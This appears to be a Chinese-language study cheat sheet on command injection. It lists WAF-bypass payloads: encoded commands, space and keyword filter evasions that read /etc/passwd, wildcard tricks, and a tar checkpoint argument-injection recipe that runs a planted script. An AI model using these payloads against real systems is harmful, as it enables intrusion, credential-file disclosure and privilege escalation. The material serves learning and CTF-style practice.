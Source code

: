 # 🖥️ 命令注入

## 基础知识

### Bash/Shell 的语法

> 常用命令，输入/输出重定向，管道，环境变量

### Powershell/CMD 的语法

> 常用命令

## WAF Bypass（Vqs147）

编码/混淆 空格/换行的替代 通配符的妙用 特殊环境变量

**编码/混淆：**

    base64编码：`` `echo "Y2F0IDEudHh0Cg"|base64 -d` ``

    进制编码：`$(printf "\x6c\x73")`    `` `echo -e "\x6c\x73"` ``    `echo 6c73 | xxd -r -p | bash`

**过滤空格：**原始命令cat /etc/passwd

    `{cat,/etc/passwd}` （bash可以，只对未被引起来的字符串有效，sh不行）

    `cat</etc/passwd`

    `cat$IFS/etc/passwd`   如果是相对路径的话得加大括号：`cat${IFS}1.txt` 或者 `cat$IFS$91.txt`

    用tab等其它空白字符替代空格

**过滤关键字**（例如cat）：

    用其它命令替代，例如tac

    c''at    c""at    c\\at    c$9at

    绝对路径+regex：`/bin/ca[t]`    `/bin/ca?`

    字符串拼接：`a=ca;b=t;$a$b flag`

    编码绕过：`` `echo "Y2F0IDEudHh0Cg"|base64 -d` ``

**过滤换行**：用|  &  ;或\`\` $()执行多条命令

**通配符**：可以用在绝对路径的程序名或参数中，例如`/bin/c?t /et?/pass??`

    某些命令用通配符执行时会导致命令参数注入，例如`tar czf /tmp/backup.tar.gz *`

    执行时先将通配符展开再执行命令，可以命令执行：

```bash
echo "..." > root.sh：# 创建一个名为 root.sh 的恶意脚本
echo "" > "--checkpoint-action=exec=sh root.sh"
echo "" > "--checkpoint=1"
```
